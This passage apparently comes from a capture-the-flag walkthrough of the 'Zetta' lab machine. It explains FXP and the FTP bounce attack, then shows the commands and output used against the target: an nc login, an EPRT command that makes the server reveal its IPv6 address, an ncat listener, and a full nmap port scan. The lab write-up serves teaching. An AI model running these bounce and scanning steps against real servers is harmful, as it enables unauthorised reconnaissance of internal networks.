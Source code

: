 On the FTP login banner and on the website, it says that it supports **FXP** transfers.
This stands for [File eXchange Protocol](https://en.wikipedia.org/wiki/File_eXchange_Protocol) and is a way to command two FTP servers to transfer files between each other for the purpose of low-bandwidth connections from clients.

There is a risk running this architecture called [FTP bounce attack](https://en.wikipedia.org/wiki/FTP_bounce_attack) that can be exploited by connecting to the server and executing a `PORT` command to tell the FTP server to connect somewhere else and thus port scanning the local box or other boxes and enumerating the internal server.

On the website it also shows that they support [RFC2428](https://tools.ietf.org/html/rfc2428), which is an FTP extension for IPv6 and NATs.
The `EPRT` command allows to specify and extended address with the following format:
```
EPRT<space><d><net-prt><d><net-addr><d><tcp-port><d>
```

As the FTP banner shows that IPv6 connections are welcome, these two technologies have to be combined to exploit the FTP service.

### FTP Bounce Attack

Connecting to FTP via `nc` and configuring the **FXP transfer** with the `EPRT` command:
```
nc 10.10.10.156 21

USER cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4
331 User cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4 OK. Password required

PASS cxtLMzkL9DZsFXhyuUSOceESmYbaOVr4

EPRT |2|dead:beef:2::1014|9001
```

Starting an IPv6 listener on my local client:
```
ncat -6 -lvnp 9001
```

Listing the files and getting the IPv6 address:
```
LIST
```

Output on the listener:
```
Ncat: Listening on :::9001
Ncat: Connection from dead:beef::250:56ff:feb9:1652.
Ncat: Connection from dead:beef::250:56ff:feb9:1652:57502.
-rw-r--r--    1 65534      nogroup             0 May  2 11:28 test
```

> NOTE: It will only show the IPv6 connection, if there are files in the directory.

Now lets port scan the IPv6 address for listening ports:
```
nmap -p- -o nmap/zetta_ipv6_allports -6 dead:beef::250:56ff:feb9:1652
```
```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
80/tcp   open  http
8730/tcp open  unknown
```
